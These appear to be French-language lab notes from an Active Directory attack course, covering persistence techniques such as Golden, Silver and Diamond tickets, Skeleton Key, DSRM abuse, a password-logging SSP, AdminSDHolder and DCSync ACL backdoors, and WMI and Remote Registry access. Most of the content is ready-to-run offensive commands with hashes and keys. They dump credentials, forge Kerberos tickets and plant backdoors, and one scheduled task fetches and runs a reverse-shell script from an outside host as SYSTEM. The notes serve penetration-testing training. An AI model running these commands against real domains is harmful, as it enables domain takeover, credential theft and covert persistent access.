








# Persistance Active Directory

La persistance permet de conserver un accès à un environnement Active Directory après une première compromission. Les notes couvrent les tickets Kerberos, les mécanismes présents sur les Domain Controllers et les permissions qui peuvent maintenir un accès.

Les exemples utilisent le laboratoire `dollarcorp.moneycorp.local` et les machines `dcorp-dc`. Les droits nécessaires sont indiqués dans chaque technique.

## Tickets Kerberos

### Golden Ticket

Un Golden Ticket est un TGT forgé à partir du secret du compte `krbtgt`. Il permet de représenter un utilisateur du domaine avec les groupes et privilèges indiqués dans le ticket.

Le secret de `krbtgt` peut être récupéré sur le Domain Controller avec des privilèges Domain Admin.

**Récupérer les secrets sur le contrôleur de domaine avec Mimikatz :**

```powershell
Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -Computername dcorp-dc
```

**Récupérer les clés AES du compte `krbtgt` avec DCSync :**

L'opération nécessite des privilèges Domain Admin ou des droits de réplication sur l'objet domaine. DCSync ne nécessite pas d'exécuter du code directement sur le Domain Controller.

```powershell
C:\AD\Tools\SafetyKatz.exe "lsadump::dcsync /user:dcorp\krbtgt" "exit"
```

**Créer un Golden Ticket avec BetterSafetyKatz :**

L'exemple utilise le SID du domaine et la clé AES du compte `krbtgt`. Le paramètre `/ptt` injecte le ticket dans la session courante.

```powershell
C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /User:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /aes256:154cb6624b1d859f7080a6615adc488f09f92843879b3d914cbcb5a8c3cda848 /startoffset:0 /endin:600 /renewmax:10080 /ptt" "exit"
```







**Variante avec Loader et vérification du ticket :**

```powershell
C:\AD\Tools\Loader.exe -Path C:\AD\Tools\SafetyKatz.exe "lsadump::dcsync /user:dcorp\krbtgt" "exit" # Récupérer la clé AES

C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /User:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /aes256:154cb6624b1d859f7080a6615adc488f09f92843879b3d914cbcb5a8c3cda848 /startoffset:0 /endin:600 /renewmax:10080 /ptt" "exit"

klist
```

`klist` affiche les tickets présents dans le cache. Les notes recommandent d'utiliser un compte Domain Admin actif pour générer les tickets et de purger le ticket après utilisation.

```powershell
klist purge
```

**À retenir :** le mot de passe du compte `krbtgt` doit être changé deux fois pour invalider les anciennes clés, car l'historique du mot de passe est conservé.

**Objectif du laboratoire 8**

- Récupérer les secrets du Domain Controller de `dollarcorp`.
- Utiliser les secrets de `krbtgt` pour créer un Golden Ticket.
- Utiliser le ticket depuis une machine du domaine pour retrouver des privilèges Domain Admin.

### Silver Ticket

Un Silver Ticket est un TGS forgé à partir du hash du compte de service. Contrairement au Golden Ticket, qui utilise le secret de `krbtgt`, il est limité au service ciblé.

- Le ticket est signé et chiffré avec le hash du compte de service.
- Certains services vérifient rarement le PAC (Privileged Attribute Certificate).
- Le ticket donne accès au service concerné, pas à l'ensemble du domaine.
- Les notes indiquent une durée de persistance par défaut de 30 jours pour les comptes ordinateur.

**Créer un Silver Ticket pour accéder au partage CIFS du Domain Controller :**

```powershell
C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /User:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /target:dcorp-dc.dollarcorp.moneycorp.local /service:CIFS /rc4:e9bb4c3d1327e29093dfecab8c2676f6 /startoffset:0 /endin:600 /renewmax:10080 /ptt" "exit"
```

D'autres SPN sont mentionnés dans les notes : `HOST`, `RPCSS`, `HTTP` et `WSMA`.







> LAPS gère les identifiants des administrateurs locaux, pas les comptes de service. Les notes indiquent donc que le Silver Ticket ne s'applique pas à LAPS.

**Créer un Silver Ticket pour le SPN HOST :**

Cet exemple vise l'utilisation de tâches planifiées sur la machine cible. Les notes signalent que cette opération est bruyante.

```powershell
C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /User:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /target:dcorp-dc.dollarcorp.moneycorp.local /service:HOST /rc4:e9bb4c3d1327e29093dfecab8c2676f6 /startoffset:0 /endin:600 /renewmax:10080 /ptt" "exit"
```

**Créer et exécuter une tâche planifiée :**

```powershell
schtasks /create /S dcorp-dc.dollarcorp.moneycorp.local /SC Weekly /RU "NT Authority\SYSTEM" /TN "STCheck" /TR "powershell.exe -c 'iex (New-Object Net.WebClient).DownloadString(''http://172.16.100.1:8080/Invoke-PowerShellTcp.ps1''')'"
schtasks /Run /S dcorp-dc.dollarcorp.moneycorp.local /TN "STCheck"
```

**Objectif du laboratoire 9**

Obtenir une exécution de commande sur le Domain Controller en étudiant des Silver Tickets pour les services `HOST` et WMI.

### Diamond Ticket

Un Diamond Ticket repose sur la modification d'un TGT valide :

- Un TGT émis par le Domain Controller est déchiffré.
- Certaines informations du ticket sont modifiées.
- Le ticket est ensuite rechiffré avec les clés AES de `krbtgt`.
- Sa durée de validité dépend du compte `krbtgt`.

La différence principale avec le Golden Ticket est que le Golden Ticket forge un TGT, tandis que le Diamond Ticket modifie un TGT émis par le contrôleur de domaine.

Les notes présentent le Diamond Ticket comme plus discret du point de vue OPSEC, notamment parce que les dates du ticket restent cohérentes avec un TGT émis par le Domain Controller.

**Créer un Diamond Ticket avec des identifiants :**

```powershell
Rubeus.exe diamond /krbkey:154cb6624b1d859f7080a6615adc488f09f92843879b3d914cbcb5a8c3cda848 /user:studentx /password:StudentxPassword /enctype:aes /ticketuser:administrator /domain:dollarcorp.moneycorp.local /dc:dcorp-dc.dollarcorp.moneycorp.local /ticketuserid:500 /groups:512 /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```

**Utiliser `/tgtdeleg` à la place des identifiants :**

Cette variante est présentée lorsque l'utilisateur dispose déjà d'un accès avec un compte du domaine.

```powershell
Rubeus.exe diamond /krbkey:154cb6624b1d859f7080a6615adc488f09f92843879b3d914cbcb5a8c3cda848 /tgtdeleg /enctype:aes /ticketuser:administrator /domain:dollarcorp.moneycorp.local /dc:dcorp-dc.dollarcorp.moneycorp.local /ticketuserid:500 /groups:512 /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```

**Objectif du laboratoire 10**

Utiliser les privilèges Domain Admin obtenus précédemment pour étudier la technique Diamond Ticket.

## Persistance sur le Domain Controller

### Skeleton Key

Skeleton Key est une technique qui modifie le processus LSASS d'un Domain Controller afin d'accepter un mot de passe commun pour les comptes utilisateurs.

- La technique nécessite des privilèges Domain Admin.
- Le mot de passe utilisé dans l'exemple est `mimikatz`.
- La modification n'est pas persistante après un redémarrage.
- Les notes déconseillent son utilisation en assessment : elle est bruyante et peut provoquer des problèmes avec AD CS.

**Injecter Skeleton Key sur le Domain Controller :**

```powershell
Invoke-Mimikatz -Command '"privilege::debug" "misc::skeleton"' -ComputerName dcorp-dc.dollarcorp.moneycorp.local
```

**Ouvrir une session avec le mot de passe commun :**

```powershell
Enter-PSSession -Computername dcorp-dc -Credential dcorp\Administrator
```

**Cas où LSASS fonctionne comme un Protected Process :**

Les notes indiquent que cette variante nécessite le driver Mimikatz `mimidriv.sys` présent sur le Domain Controller.

```text
mimikatz # privilege::debug
mimikatz # !+
mimikatz # !processprotect /process:lsass.exe /remove
mimikatz # misc::skeleton
mimikatz # !-
```

> Cette opération est très bruyante dans les journaux : elle implique notamment l'installation d'un driver en mode kernel.

**Exemple de modification de la clé par défaut :**

Les notes prennent le mot de passe `S3c3rtP@ss` comme exemple et présentent les valeurs RC4 découpées en blocs.

```text
56aa742a
6bebb9ca
62fc9f70
a2e00cd3
```

**Inverser les valeurs par groupes de deux octets :**

```text
2a74aa56
cab9eb6b
709ffc62
d30ce0a2
```

**Format de la valeur `kiwiKey` présenté dans le code source Mimikatz :**

```c
DWORD kiwiKey[] = {0x2a74aa56, 0xcab9eb6b, 0x709ffc62, 0xd30ce0a2}
```

[Code source Mimikatz - kuhl_m_misc.c, ligne 611](https://github.com/gentilkiwi/mimikatz/blob/master/mimikatz/modules/kuhl_m_misc.c#L611)

### DSRM

DSRM signifie Directory Services Restore Mode. Chaque Domain Controller possède un compte Administrateur local associé au mot de passe DSRM.

- Le mot de passe DSRM, aussi appelé `SafeModePassword`, est défini lors de la promotion du serveur en Domain Controller.
- Il est rarement modifié.
- Après modification du comportement d'ouverture de session, le hash NTLM du compte local peut être utilisé pour s'authentifier sur le Domain Controller.

**Récupérer le hash du compte Administrateur DSRM :**

L'opération nécessite des privilèges Domain Admin.

```powershell
Invoke-Mimikatz -Command '"token::elevate" "lsadump::sam"' -Computername dcorp-dc
```

**Comparer avec le hash du compte Administrateur du domaine :**

```powershell
Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -Computername dcorp-dc
```

Le premier résultat correspond au compte Administrateur local DSRM.

**Ouvrir une session distante sur le Domain Controller :**

```powershell
Enter-PSSession -Computername dcorp-dc
```

**Modifier le comportement d'ouverture de session DSRM :**

```powershell
New-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\" -Name "DsrmAdminLogonBehavior" -Value 2 -PropertyType DWORD
```

**Utiliser le hash NTLM pour s'authentifier :**

```powershell
Invoke-Mimikatz -Command '"sekurlsa::pth /domain:dcorp-dc /user:Administrator /ntlm:a102ad5753f4c441e3af31c97fad86fd /run:powershell.exe"'
ls \\dcorp-dc\C$
```

**Objectif du laboratoire 11**

Étudier l'utilisation du compte DSRM et de ses identifiants dans un scénario de persistance.

### Custom SSP

Un Security Support Provider (SSP) est une DLL qui fournit à une application des mécanismes d'authentification. Les SSP Microsoft cités dans les notes sont :

```text
NTLM
Kerberos
WDigest
CredSSP
```

Mimikatz fournit un SSP personnalisé appelé `mimilib.dll`. Il peut enregistrer en clair les mots de passe des comptes locaux, des comptes de service et des comptes machine sur le serveur cible.

**Ajouter `mimilib` dans les Security Packages :**

Déposer d'abord `mimilib.dll` dans `C:\Windows\System32`. La commande suivante récupère la liste actuelle des packages, ajoute `mimilib` puis met à jour les deux emplacements du registre.

```powershell
$packages = Get-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\OSConfig\ -Name 'Security Packages' | Select-Object -ExpandProperty 'Security Packages'
$packages += "mimilib"
Set-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\OSConfig\ -Name 'Security Packages' -Value $packages
Set-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\ -Name 'Security Packages' -Value $packages
```

**Autre méthode : utiliser Mimikatz pour charger le SSP dans LSASS :**

Les notes signalent une stabilité limitée avec Windows Server 2019 et 2022.

```powershell
Invoke-Mimikatz -Command '"misc::memssp"'
```

**Emplacement du fichier de journalisation :**

```text
C:\Windows\system32\mimilsa.log
```

## Persistance par les ACL Active Directory

### AdminSDHolder

L'objet AdminSDHolder se trouve dans le conteneur `System` du domaine. Il sert de référence pour les permissions ACL de certains groupes privilégiés, appelés Protected Groups.

Le processus Security Descriptor Propagator (SDPROP) s'exécute toutes les heures. Il compare les ACL des groupes protégés et de leurs membres avec celles d'AdminSDHolder, puis réapplique les permissions de référence lorsque des différences sont détectées.

Avec des droits Domain Admin ou des permissions suffisantes sur AdminSDHolder, il est possible d'ajouter des permissions à un utilisateur. Lors de l'exécution de SDPROP, ces permissions sont propagées aux objets protégés, par exemple Domain Admins, sans que l'utilisateur soit nécessairement membre du groupe.





**Ajouter FullControl à un utilisateur avec PowerView :**

L'exemple utilise `student1` comme principal et nécessite des droits suffisants sur l'objet AdminSDHolder.

```powershell
Add-DomainObjectAcl -TargetIdentity 'CN=AdminSDHolder,CN=System,DC=dollarcorp,DC=moneycorp,DC=local' -PrincipalIdentity student1 -Rights All -PrincipalDomain dollarcorp.moneycorp.local -TargetDomain dollarcorp.moneycorp.local -Verbose
```

**Utiliser le module ActiveDirectory et le toolkit RACE :**

```powershell
Set-DCPermissions -Method AdminSDHolder -SAMAccountName student1 -Right GenericAll -DistinguishedName 'CN=AdminSDHolder,CN=System,DC=dollarcorp,DC=moneycorp,DC=local' -Verbose
```

[RACE sur GitHub](https://github.com/samratashok/RACE)

**Ajouter les droits ResetPassword et WriteMembers :**

```powershell
Add-DomainObjectAcl -TargetIdentity 'CN=AdminSDHolder,CN=System,DC=dollarcorp,DC=moneycorp,DC=local' -PrincipalIdentity student1 -Rights ResetPassword -PrincipalDomain dollarcorp.moneycorp.local -TargetDomain dollarcorp.moneycorp.local -Verbose

Add-DomainObjectAcl -TargetIdentity 'CN=AdminSDHolder,CN=System,DC=dollarcorp,DC=moneycorp,DC=local' -PrincipalIdentity student1 -Rights WriteMembers -PrincipalDomain dollarcorp.moneycorp.local -TargetDomain dollarcorp.moneycorp.local -Verbose
```

**Déclencher SDPROP manuellement :**

```powershell
Invoke-SDPropagator -timeoutMinutes 1 -showProgress -Verbose
```

Pour les systèmes antérieurs à Windows Server 2008 :

```powershell
Invoke-SDPropagator -taskname FixUpInheritance -timeoutMinutes 1 -showProgress -Verbose
```

**Vérifier les permissions sur Domain Admins avec PowerView :**

Cette vérification peut être effectuée avec un compte utilisateur standard.

```powershell
Get-DomainObjectAcl -Identity 'Domain Admins' -ResolveGUIDs | ForEach-Object {$_ | Add-Member NoteProperty 'IdentityName' $(Convert-SidToName $_.SecurityIdentifier);$_} | ?{$_.IdentityName -match "student1"}
```

**Vérifier les permissions avec le module ActiveDirectory :**

```powershell
(Get-Acl -Path 'AD:\CN=Domain Admins,CN=Users,DC=dollarcorp,DC=moneycorp,DC=local').Access | ?{$_.IdentityReference -match 'student1'}
```

**Exemples d'utilisation du droit FullControl :**

Avec PowerView :

```powershell
Add-DomainGroupMember -Identity 'Domain Admins' -Members testda -Verbose
```

Avec le module ActiveDirectory :

```powershell
Add-ADGroupMember -Identity 'Domain Admins' -Members testda
```

**Exemples d'utilisation du droit ResetPassword :**

Avec PowerView :

```powershell
Set-DomainUserPassword -Identity testda -AccountPassword (ConvertTo-SecureString "Password@123" -AsPlainText -Force) -Verbose
```

Avec le module ActiveDirectory :

```powershell
Set-ADAccountPassword -Identity testda -NewPassword (ConvertTo-SecureString "Password@123" -AsPlainText -Force) -Verbose
```

### ACL du domaine et droits DCSync

Les ACL de la racine du domaine peuvent accorder des permissions étendues, comme FullControl ou les droits nécessaires à DCSync.

Les notes indiquent que Microsoft Defender for Identity (MDI) peut détecter une opération DCSync lancée par un compte autre qu'un contrôleur de domaine.

**Droits nécessaires pour DCSync :**

```text
Replicating Directory Changes
Replicating Directory Changes All
Replicating Directory Changes in Filtered Set (dans certains cas)
```

**Exemple de requête DCSync :**

```powershell
C:\AD\Tools\SafetyKatz.exe "lsadump::dcsync /user:dcorp\krbtgt" "exit"
```

**Ajouter FullControl sur la racine du domaine avec PowerView :**

```powershell
Add-DomainObjectAcl -TargetIdentity 'DC=dollarcorp,DC=moneycorp,DC=local' -PrincipalIdentity student1 -Rights All -PrincipalDomain dollarcorp.moneycorp.local -TargetDomain dollarcorp.moneycorp.local -Verbose
```

**Utiliser le module ActiveDirectory et RACE :**

```powershell
Set-ADACL -SamAccountName studentuser1 -DistinguishedName 'DC=dollarcorp,DC=moneycorp,DC=local' -Right GenericAll -Verbose
```

**Ajouter les droits de réplication DCSync avec PowerView :**

```powershell
Add-DomainObjectAcl -TargetIdentity 'DC=dollarcorp,DC=moneycorp,DC=local' -PrincipalIdentity student1 -Rights DCSync -PrincipalDomain dollarcorp.moneycorp.local -TargetDomain dollarcorp.moneycorp.local -Verbose
```

**Utiliser le module ActiveDirectory et RACE :**

```powershell
Set-ADACL -SamAccountName studentuser1 -DistinguishedName 'DC=dollarcorp,DC=moneycorp,DC=local' -GUIDRight DCSync -Verbose
```

**Exécuter DCSync avec Invoke-Mimikatz :**

```powershell
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'
```

**Exécuter DCSync avec SafetyKatz :**

```powershell
C:\AD\Tools\SafetyKatz.exe "lsadump::dcsync /user:dcorp\krbtgt" "exit"
```

**Objectif du laboratoire 12**

- Vérifier si `studentx` possède les droits de réplication DCSync.
- Si les droits sont présents, les utiliser pour récupérer les hashes du compte `krbtgt`.
- Si les droits ne sont pas présents, ajouter les droits de réplication à `studentx` puis exécuter DCSync pour récupérer les hashes du compte `krbtgt`.

### Security Descriptors

Les Security Descriptors décrivent les informations de sécurité d'un objet, notamment :

- Owner.
- Primary group.
- DACL.
- SACL.

Les notes indiquent que les Security Descriptors de plusieurs objets distants (securable objects) peuvent être modifiés pour accorder un accès à des utilisateurs non administrateurs. Des privilèges administratifs sont nécessaires.

**Structure d'une ACE en SDDL :**

```text
ace_type;ace_flags;rights;object_guid;inherit_object_guid;account_sid
```

**Exemple d'ACE pour les administrateurs intégrés sur un namespace WMI :**

```text
A;CI;CCDCLCSWRPWPRCWD;;;SID
```

## Persistance via les interfaces d'administration distantes

### WMI

Les ACL WMI peuvent être modifiées pour autoriser des utilisateurs non administrateurs à accéder à des namespaces ou à des objets sécurisables.

**Charger le toolkit RACE :**

```powershell
. C:\AD\Tools\RACE-master\RACE.ps1
```

**Configurer l'accès WMI sur la machine locale pour `student1` :**

```powershell
Set-RemoteWMI -SamAccountName student1 -Verbose
```

**Configurer l'accès WMI sur une machine distante sans identifiants explicites :**

```powershell
Set-RemoteWMI -SamAccountName student1 -ComputerName dcorp-dc -Namespace 'root\cimv2' -Verbose
```

**Configurer l'accès WMI sur une machine distante avec des identifiants explicites :**

Les notes limitent cet exemple au namespace `root\cimv2` et à ses namespaces imbriqués.

```powershell
Set-RemoteWMI -SamAccountName student1 -ComputerName dcorp-dc -Credential Administrator -Namespace 'root\cimv2' -Verbose
```

**Retirer les permissions WMI sur la machine distante :**

```powershell
Set-RemoteWMI -SamAccountName student1 -ComputerName dcorp-dc -Namespace 'root\cimv2' -Remove -Verbose
```

**Exemples d'interaction WMI :**

Le premier exemple crée un processus distant. Le second interroge les informations du système d'exploitation.

```powershell
Invoke-WmiMethod -Class win32_process -Name Create -ArgumentList 'calc.exe' -ComputerName dcorp-dc
gwmi -Class win32_operatingsystem -ComputerName dcorp-dc
```

### PowerShell Remoting

Le toolkit RACE permet de modifier les permissions associées à PowerShell Remoting. Les notes signalent que cette méthode de backdoor n'est plus stable après les correctifs d'août 2020.

**Configurer PowerShell Remoting sur la machine locale pour `student1` :**

```powershell
Set-RemotePSRemoting -SamAccountName student1 -Verbose
```

**Configurer PowerShell Remoting sur une machine distante :**

```powershell
Set-RemotePSRemoting -SamAccountName student1 -ComputerName dcorp-dc -Verbose
```

**Retirer les permissions PowerShell Remoting :**

```powershell
Set-RemotePSRemoting -SamAccountName student1 -ComputerName dcorp-dc -Remove
```

### Remote Registry

RACE ou DAMP peuvent être utilisés pour configurer un accès au Remote Registry. L'exemple nécessite des privilèges administrateur sur la machine distante.

**Configurer l'accès Remote Registry pour `student1` :**

```powershell
Add-RemoteRegBackdoor -ComputerName dcorp-dc -Trustee student1 -Verbose
```

**Récupérer le hash du compte machine :**

```powershell
Get-RemoteMachineAccountHash -ComputerName dcorp-dc -Verbose
```

**Récupérer les hashes des comptes locaux :**

```powershell
Get-RemoteLocalAccountHash -ComputerName dcorp-dc -Verbose
```

**Récupérer les identifiants mis en cache du domaine :**

```powershell
Get-RemoteCachedCredential -ComputerName dcorp-dc -Verbose
```

**Objectif du laboratoire 13**

- Modifier les Security Descriptors de `dcorp-dc` pour étudier l'accès à PowerShell Remoting et WMI sans privilèges administrateur.
- Récupérer le hash du compte machine du Domain Controller et étudier son utilisation dans un Silver Ticket pour accéder à WMI.
